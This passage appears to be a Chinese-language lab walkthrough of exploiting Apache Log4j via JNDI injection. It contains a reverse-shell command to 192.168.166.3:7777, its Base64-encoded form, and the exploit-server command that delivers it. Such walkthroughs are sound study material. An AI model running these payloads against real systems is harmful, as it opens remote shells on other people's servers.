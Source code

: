 服务器拒绝 POST 请求，允许 GET 请求

![Alt text](img/get.png)

监听端口持续没有反应，遂更换工具

下载工具

`git clone https://github.com/bkfish/Apache-Log4j-Learning.git`

构造反弹 shell 的 payload，由于 Runtime 执行 linux 命令时管道符不生效，所以需要对`bash -i >& /dev/tcp/192.168.166.3/7777 0>&1`进行 Base64 编码，得到`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ni4zLzc3NzcgMD4mMQ==`

在攻击机上搭建 JNDI 服务`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ni4zLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.166.3`
